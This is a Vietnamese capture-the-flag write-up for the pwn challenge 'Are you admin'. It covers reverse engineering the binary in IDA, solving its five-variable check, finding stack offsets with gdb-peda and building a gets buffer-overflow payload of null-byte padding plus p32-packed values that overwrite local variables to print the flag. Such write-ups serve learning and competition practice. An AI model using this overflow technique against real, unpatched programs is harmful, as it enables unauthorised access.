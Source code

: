 # Are you admin
**__reversing, buffer overflow__**   

```
nc 194.5.207.113 7020
```
File binary: [areyouadmin](https://github.com/BuiKimPhat/ctf-writeup/blob/master/pwn/tmuctf/areyouadmin/areyouadmin)

- Kiểm tra định dạng file `file areyouadmin`, ta thấy file thực thi có định dạng là ELF 64bit
- Đầu tiên, mình sẽ dùng IDA 64bit để phân tích file thực thi và thấy được hàm main có dạng như sau:
```
  tmulogo();
  v14 = 0;
  v13 = 0;
  v12 = 0;
  v11 = 0;
  v10 = 0;
  sub_10C0("Enter username:");
  sub_1110(&v8);
  sub_10C0("Enter password:");
  sub_1110(&v7);
  if ( sub_1100(&v8, "AlexTheUser")
    || sub_1100(&v7, "4l3x7h3p455w0rd")
    || v13 * v14 + v12 != 9535
    || v12 * v13 + v11 != 14242
    || v11 * v12 + v10 != 5843
    || v10 * v11 + v14 != 7113
    || v14 * v10 + v13 != 28735 )
  {
    result = 0;
  }
  else
  {
    LODWORD(v4) = sub_1120("flag.txt", "r");
    v9 = v4;
    if ( !v4 )
    {
      sub_10E0("Missing flag.txt. Contact an admin if you see this on remote.");
      sub_1130(1LL);
    }
    sub_10F0(&v6, 128LL, v9);
    sub_10E0("%s");
    result = 0;
  }
```
Có vẻ như quá trình tạo mã giả của hàm có vấn đề, nên các tên hàm hệ thống đều bị chuyển sang dạng "sub_????". Để biết được đó là hàm gì thì chỉ cần double click vào xem hàm đó trong chế độ xem mã assembly.      
Đổi lại tên các hàm "sub_????" cho dễ nhìn:
```
  tmulogo();
  v14 = 0;
  v13 = 0;
  v12 = 0;
  v11 = 0;
  v10 = 0;
  puts1("Enter username:");
  gets1(&v8);
  puts1("Enter password:");
  gets1(&v7);
  if ( strcmp1(&v8, "AlexTheUser")
    || strcmp1(&v7, "4l3x7h3p455w0rd")
    || v13 * v14 + v12 != 9535
    || v12 * v13 + v11 != 14242
    || v11 * v12 + v10 != 5843
    || v10 * v11 + v14 != 7113
    || v14 * v10 + v13 != 28735 )
  {
    result = 0;
  }
  else
  {
    LODWORD(v4) = fopen1("flag.txt", "r");
    v9 = v4;
    if ( !v4 )
    {
      printf1("Missing flag.txt. Contact an admin if you see this on remote.");
      exit1(1LL);
    }
    fgets1(&v6, 128LL, v9);
    printf1("%s");
    result = 0;
  }
```
Vì không cho đổi tên giống hàm chuẩn nên mình để thêm số 1 ở phía sau :vv

- Nhìn sơ qua chương trình, ta có thể thấy được chương trình có đoạn code chuyên dùng để in flag ở phía sau, nhưng để chạy được phần code đó thì ta phải thỏa các điều kiện:
    - Chuỗi **username == "AlexTheUser"**
    - Chuỗi **password == "4l3x7h3p455w0rd"**
    - v13 * v14 + v12 == 9535
    - v12 * v13 + v11 == 14242
    - v11 * v12 + v10 == 5843
    - v10 * v11 + v14 == 7113
    - v14 * v10 + v13 == 28735

- Quan sát thấy chương trình sử dụng hàm `gets` để nhận input, điều này sẽ dễ dẫn đến lỗi buffer overflow. Thử kiểm tra các chế độ bảo vệ của chương trình:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```
Chương trình không có chế độ bảo vệ buffer overflow (Canary), thế nên chúng ta có thể tự do điều khiển stack bằng input mà không cần lo nghĩ gì nhiều.

- 2 điều kiện username và password thì ta có thể dễ dàng nhập rồi. Vấn đề là chúng ta cần phải điều khiển 5 biến v14, v13, v12, v11, v10 trên stack để thỏa được điều kiện trên.    
Ta cần tìm xem giá trị của 5 biến này cần bằng bao nhiêu để thỏa điều kiện. Nhưng mấy thứ tính toán 5 ẩn thế này thì mình chịu nên mình bỏ hệ phương trình trên vào tool tính toán online [WolframAlpha](https://www.wolframalpha.com/) để tính hộ.   
Vì nếu để tên biến là v10, v11... thì tool sẽ hiểu nhầm thành v mũ 10, v mũ 11... nên mình đổi tên biến sang lần lượt từ v10 đến v14 là a, b, c, d, e
```
d * e + c = 9535, c * d + b = 14242, b * c + a = 5843, a * b + e = 7113, e * a + d = 28735
```
Vậy ta đã tìm được điều kiện cần: **v10 = 233, v11 = 30, v12 = 187, v13 = 76, v14 = 123**

Thứ cần tìm cuối cùng là phải viết payload như thế nào mới có thể ghi đè được các giá trị này vào các biến trên. 

- Để điều khiển được giá trị của các biến trên stack, ta cần tìm địa chỉ của nó. Dùng gdb-peda để debug và xem địa chỉ của các biến này cùng với 2 input username, password trên stack ở đâu:
```
gdb-peda$ start
```
```
gdb-peda$ pdis main
```
Đặt breakpoint ngay tại vị trí các biến được gán bằng 0 để tính địa chỉ các biến ở đâu
```
0x00005555555552f1 <+93>:    call   0x555555555229 <tmulogo>
0x00005555555552f6 <+98>:    mov    DWORD PTR [rbp-0x4],0x0
0x00005555555552fd <+105>:   mov    DWORD PTR [rbp-0x8],0x0
0x0000555555555304 <+112>:   mov    DWORD PTR [rbp-0xc],0x0
0x000055555555530b <+119>:   mov    DWORD PTR [rbp-0x10],0x0
0x0000555555555312 <+126>:   mov    DWORD PTR [rbp-0x14],0x0
```
```
gdb-peda$ b* 0x00005555555552f6
```
Đặt breakpoint tại vị trí gọi các hàm gets để xem địa chỉ của username và password trên stack:
```
0x0000555555555331 <+157>:   call   0x555555555110 <gets@plt>
0x0000555555555336 <+162>:   lea    rdi,[rip+0xed2]        # 0x55555555620f
0x000055555555533d <+169>:   call   0x5555555550c0 <puts@plt>
0x0000555555555342 <+174>:   lea    rax,[rbp-0xa0]
0x0000555555555349 <+181>:   mov    rdi,rax
0x000055555555534c <+184>:   mov    eax,0x0
0x0000555555555351 <+189>:   call   0x555555555110 <gets@plt>
```
```
gdb-peda$ b* 0x0000555555555331
gdb-peda$ b* 0x0000555555555351
```

- Chạy chương trình và tính các địa chỉ cần tìm:
    - Tại breakpoint 1: RBP = 0x7fffffffdca0, suy ra địa chỉ của v14 là 0x7fffffffdca0 - 0x4 = 0x7fffffffdc9c   
    Tương tự, các biến còn lại có cùng RBP nên địa chỉ của nó sẽ bé hơn địa chỉ của biến trước khai báo trước đó 0x4. Vậy ta có thể hình dung được thứ tự của các biến trên stack là như sau: v10, v11, v12, v13, v14 (mỗi biến chỉ có thể chứa được 4 bytes)
    - Tại breakpoint 2: 
    ```
    Guessed arguments:
    arg[0]: 0x7fffffffdc40 --> 0xd ('\r')
    ```
    Dữ liệu input sẽ được lưu vào tham số duy nhất trong gets nên địa chỉ của username trên stack sẽ là 0x7fffffffdc40
    - Tại breakpoint 3: tương tự, địa chỉ của password trên stack là 0x7fffffffdc00
    
- Sắp xếp lại các địa chỉ trên stack mà ta đã tính được:    
```
password - 64 bytes - username - 76 bytes - v10 - 4 bytes - v11 - 4 bytes - v12 - 4 bytes - v13 - 4 bytes - v14
```

- Viết payload:     
Chương trình cho phép ta nhập input 2 lần, lần đầu chứa ở username, lần sau chứa ở password. Ta có thể lợi dụng buffer overflow ở username để viết các kí tự offset cho tràn đến các địa chỉ của các biến đằng sau để ghi giá trị của các biến sau. 
    - payload1: `username + "\x00"*(76 - len(username)) + p32(v10) + p32(v11) + p32(v12) + p32(v13) + p32(v14)` (giá trị của các biến trong payload1 đã được nêu ở phần trên)
    Ta có thể thấy từ username chỉ cần nhập 76 kí tự thì sẽ nhập tiếp được giá trị của v10,...      
    Ở đây, mình dùng kí tự null `\x00` để làm kí tự offset tràn đến các địa chỉ sau vì hàm `strcmp` chỉ so sánh 2 chuỗi cho đến khi gặp kí tự null. Nếu muốn chèn kí tự khác thì chuỗi kí tự chèn phải bắt đầu bằng kí tự null để hàm có thể so sánh thành công chuỗi username chứ không đem các kí tự sau đi so sánh. 
    Mỗi biến v?? chỉ rộng 4 bytes nên mình dùng hàm `p32` của pwntool để chuyển giá trị của nó thành chuỗi 4 bytes kí tự.
    - payload2: `password`

- Và thế là xong! Chỉ cần cho chương trình chạy lần lượt với 2 payload như trên thì ta sẽ lấy được flag
